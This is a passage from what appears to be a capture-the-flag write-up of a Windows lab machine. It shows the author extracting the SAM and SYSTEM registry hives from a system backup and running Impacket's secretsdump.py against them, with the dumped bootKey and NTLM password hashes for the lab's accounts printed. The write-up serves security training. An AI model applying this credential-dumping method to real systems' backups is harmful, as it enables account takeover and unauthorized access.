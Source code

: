 I will use my local windows hacking machine to read the contents of the ``WindowsImageBackup`` file.


![bastion-1](../../../assets/images/bastion-1.png)

To crack the DB we need the SAM and SYSTEM hives. They are located at ``C:\WIndows\System32\config\SAM and C:\Windows\System32\config\SYSTEM.``

Save them locally on your device and then run:

I used ``secretdumpy`` to dump out the credentials from the SAM and SYSTEM hives.

```bash
┌─(C:\Users\dcyberguy\pipx\venvs\impacket\Scripts)─────────────────────────────────────────────(dcyberguy@PLAYROOM-WIN)─┐
└─(21:36:14)──> python secretsdump.py -sam C:\Users\dcyberguy\Desktop\SAM -system C:\Users\dcyberguy\Desktop\SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```
